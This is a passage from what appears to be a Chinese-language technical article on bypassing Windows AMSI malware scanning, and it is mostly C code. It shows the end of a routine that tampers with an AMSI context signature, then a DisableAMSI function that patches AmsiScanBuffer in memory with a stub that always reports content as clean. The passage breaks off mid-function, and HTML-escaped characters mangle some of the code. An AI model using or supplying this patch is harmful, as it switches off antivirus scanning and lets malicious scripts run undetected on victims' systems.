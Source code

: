 ```
        VirtualProtect(cs, sizeof(ULONG_PTR), 
          PAGE_EXECUTE_READWRITE, &amp;op);

        // change signature
        ctx-&gt;Signature++;

        // set page back to original protection
        VirtualProtect(cs, sizeof(ULONG_PTR), op, &amp;t);
        disabled = TRUE;
        break;
      `}`
    `}`
    return disabled;
`}`
```



## 0x09 AMSI绕过：Patch代码（2）

Tal Liberman的建议是覆盖`AmsiScanBuffer`的prolog字节，使该函数返回1。如下代码会覆盖该函数，使得当CLR扫描任何缓冲区时，该函数都会返回`AMSI_RESULT_CLEAN`以及`S_OK`。

```
// fake function that always returns S_OK and AMSI_RESULT_CLEAN
static HRESULT AmsiScanBufferStub(
  HAMSICONTEXT amsiContext,
  PVOID        buffer,
  ULONG        length,
  LPCWSTR      contentName,
  HAMSISESSION amsiSession,
  AMSI_RESULT  *result)
`{`
    *result = AMSI_RESULT_CLEAN;
    return S_OK;
`}`

static VOID AmsiScanBufferStubEnd(VOID) `{``}`

BOOL DisableAMSI(VOID) `{`
    BOOL    disabled = FALSE;
    HMODULE amsi;
    DWORD   len, op, t;
    LPVOID  cs;

    // load amsi
    amsi = LoadLibrary("amsi");

    if(amsi != NULL) `{`
      // resolve address of function to patch
      cs = GetProcAddress(amsi, "AmsiScanBuffer");

      if(cs != NULL) `{`
        // calculate length of stub
        len = (ULONG_PTR)AmsiScanBufferStubEnd -
          (ULONG_PTR)AmsiScanBufferStub;

        // make the memory writeable
        if(VirtualProtect(
          cs, len, PAGE_EXECUTE_READWRITE, &amp;op))
        `{`
          // over write with code stub
          memcpy(cs, &amp;AmsiScanBufferStub, len);

```